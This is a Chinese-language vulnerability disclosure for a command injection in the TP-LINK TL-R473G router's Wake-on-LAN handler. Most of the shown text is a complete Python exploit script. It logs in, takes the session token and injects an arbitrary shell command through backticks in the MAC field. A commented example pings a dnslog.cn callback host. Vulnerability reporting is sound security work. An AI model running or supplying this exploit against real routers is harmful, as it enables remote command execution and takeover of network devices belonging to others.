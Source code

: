 # TP-LINK TL-R473G 存在命令注入漏洞

**CVE ID**:  

**CNVD ID**: 

**漏洞厂商**:  TP-LINK

**厂商官网**: https://www.tp-link.com.cn/、https://www.tp-link.com/

**影响产品**: TL-R473G

**影响产品版本**: 2.0.1 Build 220529 Rel.65574n(最新版)

**固件链接**: 非最新版固件 https://smb.tp-link.com.cn/service/detail_download_8644.html

**报送者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

## 漏洞描述

TP-LINK TL-R473G由于过滤规则不完善，造成远程命令执行漏洞，攻击者可以通过精心构造的数据包绕过限制，实现远程命令执行。

## 漏洞详情

漏洞产生在路由器后台的网络唤醒功能。在登录后台后，修改唤醒流量包即可完成后台 RCE 。下面是代码分析。

![](img/Pasted%20image%2020220725160829.png)

处理 wol 唤醒的接口 wol_wake 从 json 提取 usrif ，将 usrif 传入 s() 简单验证是否为空值，然后拼接系统命令，进行网卡存在性校验。进行系统调用没有过滤特殊字符串导致 RCE。

![](img/Pasted%20image%2020220725160444.png)

![](img/Pasted%20image%2020220725160406.png)

## EXP

```python
# encoding:utf-8
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import json,sys

TIMEOUT_MAX = 60
HOST = sys.argv[1]
USERNAME = sys.argv[2]
PASSWORD = sys.argv[3]
COMMAND = sys.argv[4]#"ping a5urz4.dnslog.cn"

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_stok(host,username,password):
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","login":{"username":username,"password":password}}
    url = host
    response = requests.post(url=url,headers=headers,data=json.dumps(data),verify=False,timeout=TIMEOUT_MAX)
    stok = json.loads(response.text)["stok"]
    print("[+]Get stok:",stok)
    return stok

def rce(host,stok):
    url = host+"/stok="+stok+"/ds"
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","wol":{"wol_wake":{"mac":"DC-DC-DC-DC-`{}`-DC".format(COMMAND),"usrif":"LAN"}}}
    response = requests.post(url=url,headers=headers,data=json.dumps(data))
    if json.loads(response.text)["error_code"] == 0 :
        print("[+]Success")
    else:
        print("[-]Error")

def exp(host,username,password):
    host = host.strip()
    if host[:4] != "http":
        host = "http://" + host
    stok = get_stok(host,username,password)
    if stok != -1:
        rce(host,stok)

if __name__ == "__main__":
    exp(HOST,USERNAME,PASSWORD)
```


